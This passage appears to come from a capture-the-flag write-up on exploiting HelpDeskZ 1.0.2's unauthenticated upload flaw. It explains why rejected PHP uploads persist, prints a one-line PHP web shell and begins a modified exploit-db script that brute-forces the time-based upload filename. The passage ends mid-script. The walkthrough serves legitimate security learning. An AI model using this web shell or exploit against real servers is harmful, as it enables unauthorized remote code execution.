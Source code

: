 
A php file will fail, because it’s not in the allowed file types. And yet,
there is no code that will delete the file. It stays in the temporary
location. That is the vulnerability. If I can find that location, I can access
the code. And that location only requires that I know the time.

### Upload Webshell

I can log in or not log in. Either way, I am able to create a new ticket. I’ll
attach a simple php shell:

    
    
    <?php system($_REQUEST['cmd']); ?>
    

![1559597565589](https://0xdfimages.gitlab.io/img/1559597565589.png)

The site will say it’s no good:

![1548529774550](https://0xdfimages.gitlab.io/img/1548529774550.png)

But I know the upload is there.

### Brute Upload Location

I’ll start with the script from `searchsploit`: https://www.exploit-
db.com/exploits/40300

I know from the response headers that the time is off by several minutes. I’ll
make a couple modifications to the script:

1) First, the script will only find php files. I’ll change it to find whatever
ext I give it.

2) I’ll open up the brute force space. By default, it starts now and scans
backwards 5 minutes. Since the box is about 8 minutes skewed, I’ll start 5
minutes ago, and go back up to 20 minutes from there.

    
    
    #!/usr/bin/env python
    
    import hashlib
    import time
    import sys
    import requests
    
    print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'
    
    if len(sys.argv) < 3:
        print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
        sys.exit(1)
    
    helpdeskzBaseUrl = sys.argv[1]
    fileName = sys.argv[2]
    
    currentTime = int(time.time()) - 5*60
    ext = fileName.split('.')[-1]
    